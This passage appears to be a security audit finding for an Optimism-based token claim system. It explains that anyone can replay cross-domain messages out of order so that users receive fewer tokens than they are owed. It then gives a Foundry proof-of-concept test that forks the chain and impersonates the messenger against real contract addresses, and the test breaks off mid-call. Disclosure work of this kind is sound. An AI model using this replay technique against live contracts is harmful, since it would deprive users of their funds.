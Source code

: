 In the Bedrock system, this call to the Cross Domain Messenger to replay old transactions in the wrong order can be performed by anyone, so a malicious user could perform this action on behalf of our innocent user.

The result is that, when the user calls `claim()` or `claimAll()`, they will only receive `X` tokens, instead of the `X + N` they are entitled to.

### Proof of Concept

Here is a test that can be dropped into the repo to reproduce this behavior. You can run it with `forge test -vvv --match-test testOutOfSyncBrickedFunds`.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "src/L1Comptroller.sol";
import "src/L2Comptroller.sol";
import {IERC20Burnable} from "../src/interfaces/IERC20Burnable.sol";
import {ICrossDomainMessenger} from "../src/interfaces/ICrossDomainMessenger.sol";
import {IPoolLogic} from "../src/interfaces/IPoolLogic.sol";
import {IERC20Upgradeable} from "@openzeppelin/contracts-upgradeable/interfaces/IERC20Upgradeable.sol";

library AddressAliasHelper {
    uint160 constant offset = uint160(0x1111000000000000000000000000000000001111);

    function applyL1ToL2Alias(address l1Address) internal pure returns (address l2Address) {
        unchecked {
            l2Address = address(uint160(l1Address) + offset);
        }
    }
}

interface IMTy is IERC20Upgradeable {
    function totalSupply() external view returns (uint);
}

contract OutofSyncBrickedFundsTest is Test {
    L2Comptroller l2c = L2Comptroller(0x3509816328cf50Fed7631c2F5C9a18c75cd601F0);
    ICrossDomainMessenger l2xdm = ICrossDomainMessenger(0x4200000000000000000000000000000000000007);
    IMTy mty = IMTy(0x0F6eAe52ae1f94Bc759ed72B201A2fDb14891485);

    function testOutOfSyncBrickedFunds() public {
        vm.createSelectFork("INSERT_RPC_URL");

        // simulate a situation where L2Comptroller has no funds & is paused
        address user = makeAddr("user");
        uint bal = mty.balanceOf(address(l2c));
        vm.prank(address(l2c));
        mty.transfer(address(1), bal);
        address owner = l2c.owner();
        vm.prank(owner);
        l2c.pause();

        // send two txs, one for 1e18 totalBurned and one for 2e18 totalBurned
        address aliasedXDM = AddressAliasHelper.applyL1ToL2Alias(l2xdm.l1CrossDomainMessenger());
        uint nonce100 = uint(keccak256(abi.encode("nonce100")));
        uint nonce200 = uint(keccak256(abi.encode("nonce200")));

        vm.startPrank(aliasedXDM);
        l2xdm.relayMessage(
            0x3509816328cf50Fed7631c2F5C9a18c75cd601F0, // L1Comptroller
```